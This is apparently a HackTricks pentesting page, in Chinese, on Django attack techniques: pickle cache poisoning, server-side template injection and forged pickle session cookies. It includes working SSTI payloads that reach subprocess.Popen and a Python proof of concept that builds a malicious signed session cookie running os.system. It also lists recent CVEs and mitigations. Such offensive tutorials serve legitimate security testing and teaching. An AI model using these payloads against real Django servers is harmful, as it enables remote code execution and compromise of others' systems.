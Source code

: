 # Django

{{#include /banners/hacktricks-training.md}}

## 缓存操控导致RCE
Django的默认缓存存储方法是[Python pickles](https://docs.python.org/3/library/pickle.html)，如果[不受信任的输入被反序列化](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf)，可能导致RCE。**如果攻击者能够获得对缓存的写入访问权限，他们可以将此漏洞升级为底层服务器上的RCE**。

Django缓存存储在四个地方之一：[Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12)、[内存](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16)、[文件](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16)或[数据库](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95)。存储在Redis服务器或数据库中的缓存是最可能的攻击向量（Redis注入和SQL注入），但攻击者也可能利用基于文件的缓存将任意写入转化为RCE。维护者已将此标记为非问题。需要注意的是，缓存文件夹、SQL表名和Redis服务器的详细信息将根据实现而有所不同。

此HackerOne报告提供了一个很好的、可重复的利用Django缓存存储在SQLite数据库中的示例：https://hackerone.com/reports/1415436

---

## 服务器端模板注入（SSTI）
Django模板语言（DTL）是**图灵完备**的。如果用户提供的数据被渲染为*模板字符串*（例如通过调用`Template(user_input).render()`或当`|safe`/`format_html()`移除自动转义时），攻击者可能实现完整的SSTI → RCE。

### 检测
1. 查找对`Template()` / `Engine.from_string()` / `render_to_string()`的动态调用，这些调用包含*任何*未清理的请求数据。
2. 发送基于时间或算术的有效负载：
```django
{{7*7}}
```
如果渲染的输出包含`49`，则输入被模板引擎编译。

### 从原始到RCE
Django阻止对`__import__`的直接访问，但Python对象图是可达的：
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
找到 `subprocess.Popen` 的索引（约400–500，具体取决于Python构建）并执行任意命令：
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
一个更安全的通用小工具是迭代直到 `cls.__name__ == 'Popen'`。

同样的小工具适用于 **Debug Toolbar** 或 **Django-CMS** 模板渲染功能，这些功能错误处理用户输入。

---

## 基于 Pickle 的会话 Cookie RCE
如果设置 `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` 被启用（或自定义反序列化 pickle 的序列化器），Django *在* 调用任何视图代码 **之前** 解密并反序列化会话 Cookie。因此，拥有一个有效的签名密钥（默认情况下是项目的 `SECRET_KEY`）就足以实现立即的远程代码执行。

### 利用要求
* 服务器使用 `PickleSerializer`。
* 攻击者知道/可以猜测 `settings.SECRET_KEY`（通过 GitHub、`.env`、错误页面等泄露）。

### 概念验证
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
发送结果 cookie，并且有效负载以 WSGI worker 的权限运行。

**缓解措施**：保持默认的 `JSONSerializer`，轮换 `SECRET_KEY`，并配置 `SESSION_COOKIE_HTTPONLY`。

---

## 最近（2023-2025）高影响 Django CVE 渗透测试人员应检查
* **CVE-2025-48432** – *通过未转义的 `request.path` 进行日志注入*（修复于 2025 年 6 月 4 日）。允许攻击者将换行符/ANSI 代码注入日志文件，并污染下游日志分析。补丁级别 ≥ 4.2.22 / 5.1.10 / 5.2.2。
* **CVE-2024-42005** – *在 `JSONField` 上的 `QuerySet.values()/values_list()` 中的关键 SQL 注入*（CVSS 9.8）。构造 JSON 键以突破引号并执行任意 SQL。修复于 4.2.15 / 5.0.8。

始终通过 `X-Frame-Options` 错误页面或 `/static/admin/css/base.css` 哈希指纹识别确切的框架版本，并在适用时测试上述内容。

---

## 参考
* Django 安全发布 – "Django 5.2.2, 5.1.10, 4.2.22 解决 CVE-2025-48432" – 2025 年 6 月 4 日。
* OP-Innovate: "Django 发布安全更新以解决 SQL 注入缺陷 CVE-2024-42005" – 2024 年 8 月 11 日。

{{#include /banners/hacktricks-training.md}}

